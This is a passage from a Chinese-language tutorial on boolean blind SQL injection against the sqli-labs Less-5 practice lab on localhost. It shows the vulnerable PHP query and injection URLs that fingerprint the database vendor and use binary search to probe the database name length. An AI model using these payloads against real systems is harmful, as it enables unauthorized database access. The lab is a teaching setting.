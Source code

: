 ```
当我们输入 [http://127.0.0.1/sqli/Less-5/?id=1](http://127.0.0.1/sqli/Less-5/?id=1%27)‘ 我们得到下面的页面
[![](https://p5.ssl.qhimg.com/t0150638294e858bc9d.png)](https://p5.ssl.qhimg.com/t0150638294e858bc9d.png)
由此可以看出代码把 id 当成了字符来处理，而且后面还有一个限制显示的行数 limit 0,1 。当我们输入的语句正确时，就显示You are in…. 当我们输入的语句错误时，就不显示任何数据。当我们的语句有语法错误时，就报出 SQL 语句错误。
于是，我们可以推断出页面的源代码：
<pre class="pure-highlightjs"><code class="hljs php">$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";    //sql查询语句
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
    if($row)`{`                    //如果查询到数据
          echo 'You are in...........';
    `}`else`{`                      //如果没查询到数据
         print_r(mysql_error());    
    `}`
```

> **length(str) :** 返回给定字符串的长度，如 length(“string”)=6

> **concat(username)：**将查询到的username连在一起，默认用逗号分隔
**concat(str1,’*‘,str2)**：将字符串str1和str2的数据查询到一起，中间用*连接
**group_concat(username) ：**将username数据查询在一起，用逗号连接

## 判断是否存在SQL注入

于是我们可以通过构造一些判断语句，通过页面是否显示来证实我们的猜想。盲注一般用到的一些函数：**ascii()、substr() 、length()，exists()、concat()**等

1：判断数据库类型

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01768576f5827e00c3.png)

这个例子中出错页面已经告诉了我们此数据库是MySQL，那么当我们不知道是啥数据库的时候，如何分辨是哪个数据库呢？

虽然绝大多数数据库的大部分SQL语句都类似，但是每个数据库还是有自己特殊的表的。通过表我们可以分辨是哪些数据库。

MySQL数据库的特有的表是** information_schema.tables , **access数据库特有的表是** msysobjects** 、SQLServer 数据库特有的表是** sysobjects** ,oracle数据库特有的表是** dual**。那么，我们就可以用如下的语句判断数据库。哪个页面正常显示，就属于哪个数据库

```
//判断是否是 Mysql数据库
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from information_schema.tables) #
​
//判断是否是 access数据库
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from msysobjects) #
​
//判断是否是 Sqlserver数据库
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from sysobjects) #
​
//判断是否是Oracle数据库
http://127.0.0.1/sqli/Less-5/?id=1' and (select count(*) from dual)&gt;0 #</code>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012eb09f21483b324d.gif)</pre>
对于MySQL数据库，information_schema 数据库中的表都是只读的，不能进行更新、删除和插入等操作，也不能加载触发器，因为它们实际只是一个视图，不是基本表，没有关联的文件。
**information_schema.tables** 存储了数据表的元数据信息，下面对常用的字段进行介绍：
**· ** table_schema: 记录**数据库名**；
**· ** table_name: 记录**数据表名**；
**· ** table_rows: 关于表的粗略行估计；
**· ** data_length : 记录**表的大小**（单位字节）；
2：判断当前数据库名(以下方法不适用于access和SQL Server数据库)
<pre class="pure-highlightjs"><code class="hljs coffeescript">1：判断当前数据库的长度，利用二分法
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())&gt;5   //正常显示
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())&gt;10   //不显示任何数据
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())&gt;7   //正常显示
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())&gt;8   //不显示任何数据
```